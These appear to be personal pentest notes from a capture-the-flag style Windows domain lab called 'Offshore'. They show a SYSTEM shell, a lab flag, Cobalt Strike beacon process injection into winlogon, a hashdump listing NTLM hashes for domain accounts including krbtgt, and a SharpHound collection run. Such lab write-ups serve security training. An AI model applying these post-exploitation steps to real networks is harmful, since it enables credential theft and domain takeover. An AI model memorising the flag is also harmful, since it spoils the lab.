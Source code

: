 ```
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

```
![[Pasted image 20240112172714.png]]
```powershell
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> ipconfig
Windows IP Configuration
Ethernet adapter Ethernet0:
   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::f1f7:68af:28d:f014%8
   IPv4 Address. . . . . . . . . . . : 172.16.2.6
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.2.1
Tunnel adapter Teredo Tunneling Pseudo-Interface:
   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
Tunnel adapter Reusable ISATAP Interface {9EF3C0CC-B1D4-400A-871C-EA0BA165A138}:
   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

```

![[Pasted image 20240112172544.png]]
`OFFSHORE{l@zy_adm1ns_ru1n_th3_p4rty}
`
![[Pasted image 20240112173105.png]]
`restore` and get a beacon, inject to `winlogon` to get a `SYSTEM` beacon
```powershell
[01/18 09:25:34] beacon> hashdump
[01/18 09:25:34] [*] Tasked beacon to dump hashes
[01/18 09:25:34] [+] host called home, sent: 83262 bytes
[01/18 09:25:35] [+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c61f43b6a4db2676714713836b7d2ea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9404def404bc198fd9830a3483869e78:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IIS_dev:1105:aad3b435b51404eeaad3b435b51404ee:ce18f9730484ed029749730e2f82b147:::
joe:1604:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
coco:11601:aad3b435b51404eeaad3b435b51404ee:69baab46628076498356648f42908486:::
DC02$:1000:aad3b435b51404eeaad3b435b51404ee:1a1d4bd303de23a5ca0e13cda66be2e3:::
WS03$:1104:aad3b435b51404eeaad3b435b51404ee:5cf7b4d94646e8efba50f45b88c12608:::
DEFENSESYSTEM$:11602:aad3b435b51404eeaad3b435b51404ee:35f1c00e54babd1f847a2a827ef4e19b:::
attackersystem$:11603:aad3b435b51404eeaad3b435b51404ee:ef266c6b963c0bb683941032008ad47f:::
Hax0rSystem$:11604:aad3b435b51404eeaad3b435b51404ee:cc687709a0d74dba48f6566f1f155a8a:::
MINE$:11605:aad3b435b51404eeaad3b435b51404ee:cac8b10cadc8048a5c097c4d66677452:::
SMPR$:11606:aad3b435b51404eeaad3b435b51404ee:356358dd1fca46235e5442d37e214c3d:::
ADMIN$:1103:aad3b435b51404eeaad3b435b51404ee:2823744ad586a27915c227494f16a209:::
CORP$:1109:aad3b435b51404eeaad3b435b51404ee:0eea99f7b0a97af8e4cd763103dc851f:::
```
![[Pasted image 20240118102041.png]]
pulled a new `bloodhound` with commands below once on `DC02`, dropped in `c:\windows\tasks`
- bloodhound didnt show anything crazy, `mgmt01` isnt even shown in the domain
```powershell
beacon> execute-assembly /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe -c all --domain DEV.ADMIN.OFFSHORE.COM
[*] Tasked beacon to run .NET program: SharpHound.exe -c all --domain DEV.ADMIN.OFFSHORE.COM
[+] host called home, sent: 1155912 bytes
[+] received output:
```